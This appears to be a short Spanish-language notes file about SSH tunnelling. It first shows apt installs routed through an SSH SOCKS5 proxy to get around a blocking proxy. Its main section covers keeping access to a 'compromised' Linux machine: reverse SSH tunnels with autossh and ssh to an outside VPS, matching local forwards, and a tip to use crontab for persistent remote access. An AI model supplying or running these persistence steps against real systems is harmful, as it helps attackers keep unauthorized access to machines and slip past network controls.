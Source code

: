 

# Usar aptitude a través de un sock5 proxy.

En caso que se necesita instalar paquetes con aptitude y tengas algun proxy que te bloquee y solo tienes acceso remoto a una maquina mediante ssh, has lo siguiente:

1. Levanta el socks5 proxy.

~~~
ssh -f -N -D 9000 <usuario>@<ip> -p <puerto>
~~~

2. Agrega un proxy a la configuracion de aptitude.

~~~
sudo cat <<EOF > /etc/apt/apt.conf.d/80proxyconf
Acquire::http::proxy "socks5h://127.0.0.1:9000";
EOF
~~~

Listo si todo funciona correctamente podras usar apt-get update y apt-ge install sin ningun problema.


# Tunelear

En caso de que se tenga un maquina linux comprometida que puede hacer uso del protocolo ssh podemos aplicar los siguientes trucos.

## Equipo comprometido.

Previamente se debieron de haber configurado las llaves de confianza para que no se pida el password cada vez que se intente conectar.

### Con autossh

~~~
/usr/bin/autossh -M 0 -o "ServerAliveInterval 30" -o "ServerAliveCountMax 3" -f -N -R <puerto-remoto-vps>:localhost:22 usuario-remoto@ip-remota-vps.
~~~

### Solo con ssh

~~~
ssh -o ServerAliveInterval=30 -o ServerAliveCountMax=3 -f -N -R <puerto-remoto>:localhost:22 usuario-remoto@ip-remota-vps.
~~~


## Equipo nuestro.

En este esquema tiene que exisitir una maquina con un ip publico el cual se pueda llegar desde internet o que se visible para el equipo comprometido y que nosotro tambien podamos acceder.

### Con autossh

~~~
/usr/bin/autossh -M 0 -o "ServerAliveInterval 30" -o "ServerAliveCountMax 3" -f -N -L <puerto-local>:localhost:<puerto-remoto-vps> usuario-remoto@ip-remota-vps.
~~~

### Con ssh

~~~
ssh -o ServerAliveInterval=30 -o ServerAliveCountMax=3 -f -N -L <puerto-local>:localhost:<puerto-remoto-vps> usuario-remoto@ip-remota-vps
~~~

## Consejos

Eso en conjunto con un crontab , se puede tener acceso remoto a ese equipo.

